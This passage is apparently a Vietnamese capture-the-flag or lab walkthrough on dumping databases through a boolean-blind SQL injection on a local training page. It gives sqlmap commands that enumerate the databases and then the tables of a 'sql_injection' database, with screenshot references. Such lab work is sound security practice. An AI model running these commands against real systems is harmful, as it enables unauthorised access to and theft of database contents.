 ![alt text](./src/image-12.png)
Exploit dump database bằng sqlmap
Tìm tên các database trong server
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/post-blind-boolean/" --data "search=iphone11" --random-agent --technique=B -dbs --batch
```
![alt text](./src/image-13.png) <br>
Tìm thấy 4 database
Tiếp tục tìm tên các bảng trong các database
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/post-blind-boolean/" --data "search=iphone11" --random-agent --technique=B -D sql_injection --tables --batch
```